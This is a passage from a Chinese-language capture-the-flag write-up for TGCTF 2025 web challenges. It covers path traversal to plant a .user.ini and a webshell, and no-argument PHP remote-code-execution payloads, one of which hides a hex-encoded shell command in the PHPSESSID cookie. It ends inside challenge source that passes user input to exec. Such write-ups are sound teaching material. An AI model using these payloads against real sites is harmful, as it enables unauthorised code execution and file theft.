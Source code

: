 ```bash
// 输出结果
echo json_encode([
    'status_code' => $status_code,
    'msg' => $msg,
]);
```

审计一下代码，看到有个name，可以对文件名进行修改，想到目录穿越

利用这个进行目录穿越，把.user.ini传到web目录，然后文件包含1.jpg

![img](../assets/1744970124106-18.png)

![img](../assets/1744970124054-1.png)

连蚁剑拿flag

### **AAA偷渡阴平**

无参RCE

```bash
?tgctf2025=system(end(current(get_defined_vars())));&b=tac /flag
```

![img](../assets/1744970124054-2.png)

### **AAA偷渡阴平（复仇）**

利用session_id打无参RCE

```bash
/?tgctf2025=session_start();system(hex2bin(session_id()));
```

将cookie改为

```bash
PHPSESSID=636174202f662a
```

### **熟悉的配方，熟悉的味道**

题目

```python
from pyramid.config import Configurator
from pyramid.request import Request
from pyramid.response import Response
from pyramid.view import view_config
from wsgiref.simple_server import make_server
from pyramid.events import NewResponse
import re
from jinja2 import Environment, BaseLoader

eval_globals = { #防止eval执行恶意代码
    '__builtins__': {},      # 禁用所有内置函数
    '__import__': None       # 禁止动态导入
}


def checkExpr(expr_input):
    expr = re.split(r"[-+*/]", expr_input)
    print(exec(expr_input))

    if len(expr) != 2:
        return 0
    try:
```